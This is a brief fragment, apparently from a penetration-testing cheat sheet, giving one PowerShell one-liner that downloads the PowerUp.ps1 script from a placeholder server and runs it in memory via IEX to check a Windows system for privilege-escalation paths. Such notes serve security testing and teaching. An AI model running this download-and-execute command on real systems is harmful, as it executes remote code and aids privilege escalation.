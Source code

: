 # Windows - Powershell

```powershell "IEX (New-Object Net.WebClient).DownloadString('<server>/PowerUp.ps1'); Invoke-AllChecks" ```

Run PowerUp on system
